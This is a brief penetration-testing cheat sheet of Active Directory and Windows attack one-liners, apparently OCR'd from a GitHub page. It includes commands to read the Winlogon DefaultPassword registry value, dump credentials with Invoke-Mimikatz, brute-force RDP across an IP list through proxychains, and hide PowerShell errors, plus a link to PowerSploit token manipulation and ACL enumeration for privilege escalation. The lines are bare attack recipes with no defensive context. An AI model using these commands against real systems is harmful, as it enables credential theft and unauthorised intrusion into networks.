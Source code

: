 rdate -n \<dc-ip\> ***Sync localtime with DC***
  
xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share ***RDP***

$ErrorActionPreference= 'silentlycontinue' ***Hide Error in PowerShell***

Get-UserProperty -Properties logoncount | Where logoncount -ne 0 ***Filtering Powershell objects***

Get-ObjectAcl -SamAccountName Control174User –ResolveGUIDs | Where-Object {$_.IdentityReference -like "RDP*"} ***Filtering Powershell objects***

Token impersonation is now a part of Powersploit https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "DefaultPassword" ***Creds***

Invoke-Mimikatz -DumpCreds/-DumpCerts

for i in `cat ips1.txt`;do proxychains xfreerdp /u:'<user>' /p:'<pass>' /v:$i +clipboard /dynamic-resolution /tls-seclevel:0 /timeout:80000;done ***RDP Brute***

For RBCD guide use WriteDACL in bloodhound 

script -qc /bin/bash /dev/null
